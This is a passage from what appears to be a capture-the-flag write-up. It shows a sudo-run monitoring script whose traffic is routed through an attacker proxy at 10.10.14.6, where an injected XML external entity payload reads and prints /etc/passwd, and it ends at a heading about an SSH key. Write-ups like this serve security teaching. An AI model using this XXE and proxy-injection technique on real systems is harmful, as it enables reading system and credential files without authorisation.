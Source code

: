 On clicking “Forward”, the file shows up in the terminal:

```
jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh
<?xml version="1.0"?>
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "/etc/passwd">
]>
<file>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
</file>

```

#### SSH Key
